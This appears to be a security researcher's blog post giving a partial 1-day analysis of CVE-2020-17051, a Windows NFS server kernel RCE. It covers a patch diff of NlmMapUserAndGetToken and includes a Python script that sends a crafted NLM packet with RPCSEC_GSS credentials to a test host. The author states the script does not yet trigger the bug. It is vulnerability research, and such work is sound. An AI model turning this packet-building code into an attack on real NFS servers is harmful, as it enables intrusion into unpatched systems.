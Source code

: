 ```yaml
---
layout: post
title: "CVE-2020-17051 (Interrupted)"
author: "nonetype"
categories: [pwn, windows]
tags: [kernel, 1-day]
---
```


Partial analysis-note for CVE-2020-17051 (interrupted on bug triggering steps)

- [CVE-2020-17051](#cve-2020-17051)
  - [Abstract](#abstract)
  - [Diff](#diff)
    - [2020-10 (v10.0.17763.1490)](#2020-10-v100177631490)
    - [2020-11 (v10.0.17763.1577)](#2020-11-v100177631577)
    - [Diff-analysis](#diff-analysis)
  - [Dynamic analysis](#dynamic-analysis)
- [Refs](#refs)

# CVE-2020-17051
## Abstract
- Credits to [Soyeon Park](https://thdusdl1219.github.io/)
  - [MSRC refs](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2020-17051)
- Patched on 2020/11 patch tuesday
- RCE vulnerability on NFS write routine
  - It can chained with [CVE-2020-17056](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2020-17056), which is Info-leak vulnerability in same driver(nfssvr.sys)
- Low exploit complexity (MS-official)
- High exploitability (MS-official)
- Wormable
- Needs anonymous write access
- Windows server 2008~2004 is vulnerable (MS-official)

## Diff
### 2020-10 (v10.0.17763.1490)
`C:\Windows\WinSxS\amd64_microsoft-windows-nfs-servercore_31bf3856ad364e35_10.0.17763.1490_none_a92fdeaed91b92a5`
- [nfssvr_2020_10.sys](/assets/dlls/nfssvr_2020_10.sys)

### 2020-11 (v10.0.17763.1577)
`C:\Windows\WinSxS\amd64_microsoft-windows-nfs-servercore_31bf3856ad364e35_10.0.17763.1577_none_a9226eb6d9262f4f`
- [nfssvr_2020_11.sys](/assets/dlls/nfssvr_2020_11.sys)

### Diff-analysis
![Bindiff](https://i.imgur.com/sia0rDH.png "Diff 2020-10 vs 2020-11")
Checking the diff, found `NlmMapUserAndGetToken`'s if-state is changed.(Added some check logics)

![Diff-hexrays](https://i.imgur.com/GXQgCxu.png "Hex-rays diff result")
We can see the L11-L28's `*(v22+1000)` check logic is added.

## Dynamic analysis
To trigger & verify the vulnerability, we must send NLM share/unshare packet.

> For more information of NLM, see here
> 
> [https://tools.ietf.org/html/rfc1813](https://tools.ietf.org/html/rfc1813)

on user creates file on remote NFS server, kernel(or some program) sends NLM packet to server for authentication(It's my guess, may be different)

and `v23` variable on above, is NLM's RPC Credential->flavor value.

Flavor value in normal packet is 1(AUTH_UNIX or AUTH_SYS), but the bug needs 6(RPCSEC_GSS) on check routine in L11/L9.

So i wrote some python script to call `NlmMapUserAndGetToken` function.

It was hardest part on this job. (Analysis & Building packet structure is always hard..)

This code calls `NlmMapUserAndGetToken`, but needs some fix to trigger bug.
```python
import struct
import socket

def buildNew():
    frag = '80000084'
    xid = '00000202'
    msgType = '00000000'
    rpcVersion = '00000002'
    base = frag + xid + msgType + rpcVersion
    base += '000186b50000000400000014' # Prog, ProgVer, Procedure
    # Credential starts
    flavor = '00000006'
    length = '00000014'
    gssVersion = '00000001'
    gssProcedure = '00000000'
    gssSequence = '00000000'
    gssService = '00000000'
    gssHandleLen = '00000000'
    verifier_flavor = '00000000'
    verifier_credSize = '00000000'
    
    gssData = ''
    nfs = '000000000000000f4445534b544f502d54344b513838370000000020fd9c010000000600560300000000040043e2a4324802cf1418bb03baf43602f600000004000008ec000000030000000300000000'

    nfs = gssData + nfs

    return base + flavor + length + gssVersion + gssProcedure + gssSequence + gssService + gssHandleLen + verifier_flavor + verifier_credSize + nfs


def getTest(b):
    packet = b
    res = bytes.fromhex(packet)

    return res

def main():
    # test
    sock = socket.socket(socket.AF_INET)
    sock.settimeout(10)
    sock.connect(('10.0.0.100', 2049))
    
    sock.send(getTest(buildNew()))
```

> (KOR) 이것저것 일이 갑자기 많아져서, 제대로 된 분석도 못하고 트리거링 단계에서 분석이 중단되었습니다 ㅜㅜ...
> 
> 영양가 없는 글이지만, RCE 1-day 분석시 접근법만 참고하시면 좋을 것 같습니다.


# Refs
- https://www.mcafee.com/blogs/other-blogs/mcafee-labs/cve-2020-17051-remote-kernel-heap-overflow-in-nfsv3-windows-server/
- https://www.iana.org/assignments/rpc-authentication-numbers/rpc-authentication-numbers.xhtml